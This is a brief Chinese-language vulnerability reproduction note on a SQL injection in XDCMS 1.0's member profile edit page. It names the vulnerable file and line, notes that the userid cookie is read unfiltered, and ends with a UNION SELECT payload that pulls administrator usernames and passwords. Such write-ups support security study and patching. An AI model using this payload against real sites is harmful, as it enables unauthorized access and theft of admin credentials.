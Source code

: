 # XDCMS 1.0 sql注入漏洞（二）

> 原文：[https://www.zhihuifly.com/t/topic/3273](https://www.zhihuifly.com/t/topic/3273)

# XDCMS 1.0 sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![image](img/af4c231f10b1fb1d19eeabef1d1f9c55.png)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![image](img/b0f6e1dc6ed2f76caa0dfdbb675ec073.png)

$userid直接从Cookie中取出，并无任何过滤，导致注入

![image](img/d04e2fdd482f11cc6e4157ce348418ac.png)

```
select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin 
```